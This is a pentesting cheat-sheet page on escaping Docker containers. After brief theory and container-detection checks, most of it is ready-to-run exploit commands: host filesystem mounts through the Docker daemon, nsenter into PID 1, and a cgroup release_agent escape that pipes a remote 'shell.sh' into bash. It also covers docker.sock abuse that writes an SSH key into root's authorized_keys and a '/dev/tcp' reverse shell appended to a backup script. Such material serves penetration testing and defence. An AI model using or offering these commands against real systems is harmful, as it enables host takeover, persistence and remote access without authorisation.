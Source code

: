 # 🐋 docker container escape

## Theory

Docker is an open-source containerization platform used for developing, deploying, and managing applications in lightweight virtualized environments called containers.

<figure><img src="https://user-images.githubusercontent.com/106917304/173188805-30523d98-d755-4b94-8740-7a929aa28d6b.png" alt=""><figcaption><p>Docker Architecture</p></figcaption></figure>

***

## Practical (Exploitation)

### Checking if we're in Container

1. **List running processes**

```
ps aux
```

{% hint style="info" %}
If there are few no. of process is running then you might be in docker.
{% endhint %}

2. **Look for docker.env file**

```
cd / && ls -lah
```

{% hint style="info" %}
If you see .dockerenv in base dir, then you’re in a container.
{% endhint %}

3. **Those pesky cgroups**

Navigating to “/proc/1” and then catting the “cgroups” file (cat cgroup).



**Use following code to Verify you are in Docker**

```
if [ -f /.dockerenv ]; then
 echo "I'm inside matrix ;(";
else
 echo "I'm living in real world!";
fi
```



### Docker Escaping Techniques

#### 1. Escape via Exposed Docker Daemon

Run the following cmd

If we’re in bash

```
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

If we’re in alpine

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

You can see the images repo

```
docker images
docker run -it -v /:/host/ ubuntu:18.04 chroot /host/ bash
```

{% hint style="info" %}
NOTE: ubuntu:18.04 is the image repo
{% endhint %}



#### 2. Shared Namespaces

By using ps aux you can view the process with processID see pid 1 is running root it is the first one that executed when the system is booted.

Exploiting it with nsenter

```
nsenter --target 1 --mount sh
```



#### 3. Escape By Mounting File System

```
lsblk
mount /dev/sda2 /mnt
cd /mnt/root
```

{% hint style="info" %}
NOTE: In this case sda2 is the dir we mount. Might be different in your case
{% endhint %}



#### 4. Misconfigured Privileges

**list out all the capabilities**

```
capsh --print
capsh --print | grep sys_admin
```

{% hint style="info" %}
If we get sys\_admin capability, means the system is vuln.
{% endhint %}

**On attacker VM:**

First make a shell.sh and set python server and set listner.

**On target machine:**

```
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo $t/c >$d/release_agent;printf '#!/bin/sh\ncurl 10.10.x.x:80/shell.sh | bash' >/c;
chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";
```



#### 5. Exploitation of docker.sock in /var/run or /run if you're ROOT

Check /var/run dir for docker.sock file, if it’s there and you’re root then you can exploit it. First see that you can use curl cmd, if not then wget static curl from your system for static curl see the arch of target machine and get the static curl from [Resource](https://github.com/moparisthebest/static-curl)

**STEP1:** Listing the images of the container of the host

```
./curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
```

**STEP2:** Now generate id\_rsa in your machine

```
ssh-keygen -t rsa
cat key.pub
```

**STEP3:** Creating a new docker container with image ID

```
./curl -X POST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock http://localhost/containers/create -d '{"Detach":true,"AttachStdin":false,"AttachStdout":true,"AttachStderr":true,"Tty":false,"Image":"c3:latest","HostConfig":{"Binds": ["/:/var/tmp"]},"Cmd":["sh", "-c", "echo ssh-rsa AAAA..............xfoS+Yb2cW4y9cKcBWpVIiNMEtMX7sIB/0cKl8W/mY4u1UeRzWOoIIew6hqlaWCW6WKeSiCrNzEEj.........................P0/BMcKBS2pzqct2rTQ/LfFFM= root@kali >> /var/tmp/root/.ssh/authorized_keys"]}'
```

{% hint style="info" %}
NOTE: replace “c3:latest” with the docker image name that you’ll get from step1. eg: “RepoTags”:\[“c3:latest”]
{% endhint %}

Now you’ll see you created a docker and get the id. eg: {“Id”:”c19a25c6cc7245030bf9741d300f632cc7f1e5f12adad238edce23d387ba00c2”,”Warnings”:\[]}

**STEP4:** Now we gonna use the id and start the docker

```
./curl -X POST -H "Content-Type:application/json" --unix-socket /var/run/docker.sock http://localhost/containers/c19a25c6cc7245030bf9741d300f632cc7f1e5f12adad238edce23d387ba00c2/start
```

**STEP5:** Login SSH via your private key as user root and now you’re root

```
ssh -i key root@10.10.x.x
```



#### 6.  Debugfs

```
### debugfs (Interactive File System Debugger)
debugfs /dev/sda1
```



#### 3. Writeable Backup Scripts

If we can find any writable backup scripts in a docker instance then we can add our own reverse shell into it.

```
echo "/bin/bash -c 'bash -i >& /dev/tcp/10.17.6.228/4444 0>&1'" >> backup.sh  
```

Run a netcat listener

```
nc -nlvp 4444
```

{% hint style="info" %}
After the script executes you should get a root shell on the real machine.
{% endhint %}



## REFERENCES

* [https://k4sth4.github.io/Docker-Escape/](https://k4sth4.github.io/Docker-Escape/)
* [https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation)
* [https://youtu.be/\_dhONyAk4es](https://youtu.be/\_dhONyAk4es)
* [https://book.hacktricks.xyz/network-services-pentesting/2375-pentesting-docker](https://book.hacktricks.xyz/network-services-pentesting/2375-pentesting-docker)
* [https://blog.ropnop.com/docker-for-pentesters/](https://blog.ropnop.com/docker-for-pentesters/)
* [https://l3m0n.gitbook.io/pen-testing-book/container-pentesting/docker-pentesting](https://l3m0n.gitbook.io/pen-testing-book/container-pentesting/docker-pentesting)
